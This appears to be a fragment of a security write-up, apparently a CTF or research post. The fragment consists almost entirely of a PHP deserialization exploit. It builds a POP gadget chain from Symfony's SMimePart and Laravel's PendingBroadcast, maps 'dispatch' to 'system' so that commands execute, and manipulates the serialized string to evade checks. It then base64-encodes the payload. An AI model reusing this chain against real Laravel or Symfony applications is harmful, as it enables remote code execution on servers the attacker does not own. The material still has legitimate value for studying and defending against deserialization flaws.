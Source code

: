 ```php
            $this->events = new \Faker\Generator();
        }
    }
}

namespace Symfony\Component\Mime\Part {
    abstract class AbstractPart {
        private $headers = null;
    }
    
    class SMimePart extends AbstractPart {
        protected $_headers;
        public $h3rmesk1t;
        function __construct() {
            $this->_headers = ["dispatch"=>"system"];
            $this->h3rmesk1t = new \Illuminate\Broadcasting\PendingBroadcast();
        }
    }
}


namespace {
    $pop = new \Symfony\Component\Mime\Part\SMimePart();
    $ser = preg_replace("/([^\{]*\{)(.*)(s:49.*)(\})/","\\1\\3\\2\\4",serialize($pop));
    echo base64_encode(str_replace("i:9999","R:2",$ser));
}
```

<div align=center><img src="./images/17.png"></div>
